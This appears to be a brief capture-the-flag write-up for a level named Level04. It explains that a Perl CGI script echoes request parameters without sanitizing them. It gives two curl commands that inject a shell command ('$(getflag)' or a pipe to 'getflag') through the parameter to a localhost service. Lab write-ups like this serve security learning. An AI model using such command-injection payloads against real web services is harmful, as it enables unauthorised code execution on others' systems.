# Level04

The `level04.pl` script executes the `echo` command with the CGI parameters without sanitizing them, we'll input our exploit inside them to get the flag.
>`curl 'http://localhost:4747/?x=$(getflag)'`  
or  
>`curl http://localhost:4747/?x="x|getflag"`
